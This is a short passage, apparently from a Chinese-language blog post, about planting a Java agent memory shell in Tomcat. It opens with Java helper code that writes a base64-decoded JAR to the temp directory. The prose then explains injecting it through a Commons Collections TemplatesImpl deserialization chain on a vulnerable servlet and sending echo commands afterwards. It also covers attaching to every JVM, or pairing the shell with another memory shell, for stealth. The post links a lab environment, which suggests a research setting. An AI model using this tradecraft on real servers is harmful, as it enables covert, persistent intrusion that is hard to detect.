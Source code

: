 ```java

    }
    public  static  String getJARFile(String base64) throws IOException {
        if (base64 != null) {
            File JarDir = new File(System.getProperty("java.io.tmpdir"), "jar-lib");

            if (!JarDir.exists()) {
                JarDir.mkdir();
            }

            File jarFile =  new File(JarDir, filename);

            // 先删除已存在的 DLL 文件
            if (jarFile.exists()) {
                jarFile.delete();
            }

            byte[] bytes = Base64.getDecoder().decode(base64);
            if (bytes != null) {
                try (FileOutputStream fos = new FileOutputStream(jarFile)) {
                    fos.write(bytes);
                    fos.flush();
                }
            }
            return jarFile.getAbsolutePath();
        }
        return "";
    }
    public static String encodeFileToBase64(String filePath) throws IOException {
        byte[] fileBytes = Files.readAllBytes(Paths.get(filePath));
        return Base64.getEncoder().encodeToString(fileBytes);
    }
}

```

漏洞环境：https://github.com/godownio/TomcatMemshell

在上面项目的VulnServlet路由中，用同项目的CC3TemplatesImpl完成注入

千万要注意，不要多次注入，重复attach会导致内存马失效，打一次然后就去掉payload，只打回显命令，如下：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250512211759824.png)

windows输出中文会有bug。不管了


不过因为回显在doFilter里提前写到response中返回，导致后续业务无法正常触发，很大概率会把业务打崩。而且操作的时候可能会重复attach导致代码重复，业务崩溃。

另外的，由于agent attach到jvm上，而目标可能有多个jvm在运行，而我们又无从得知jvm程序名，导致只有两种办法，一种是向所有jvm attach，一种是先打另外一种内存马，然后挂agent内存马做隐蔽。这是否有点。。



REF：

https://www.yuque.com/tianxiadamutou/zcfd4v/tdvszq#


